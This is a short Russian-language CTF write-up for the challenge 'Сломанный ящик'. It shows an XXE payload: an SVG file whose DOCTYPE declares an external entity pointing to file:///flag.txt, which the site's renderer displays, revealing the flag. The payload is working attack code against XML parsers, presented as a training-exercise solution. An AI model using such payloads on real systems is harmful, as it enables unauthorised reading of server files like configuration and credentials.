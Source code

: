 # Сломанный ящик: Write-up #
Попадая на сайт, видим окошко с xml-кодом и окошко, в котором он рендерится. Судя по описанию, нам нужно как-то отрендерить файл `/flag.txt`.
В хинте сказано про некие "внешние сущности", т.е. "Eternal entities", гугл на эту тему даёт нам определение [XXE](https://habr.com/ru/companies/vds/articles/454614/).

Суть заключается в том, что мы через элемент `DOCTYPE` подгрузим файл, который потом отрендерим в элементе `svg` как текст:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
```
Можно убрать из примера кодв лишние кружочки и квадратики, тогда код будет выглядеть так:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg version = "1.1"
        baseProfile="full"
        xmlns = "http://www.w3.org/2000/svg" 
        xmlns:xlink = "http://www.w3.org/1999/xlink"
        xmlns:ev = "http://www.w3.org/2001/xml-events"
        height = "400px"  width = "400px">
<text x="20" y="35" class="small">&xxe;</text>
</svg>
```
Загружаем и получаем флаг: `CCODEBY{xmldestroyer31}`
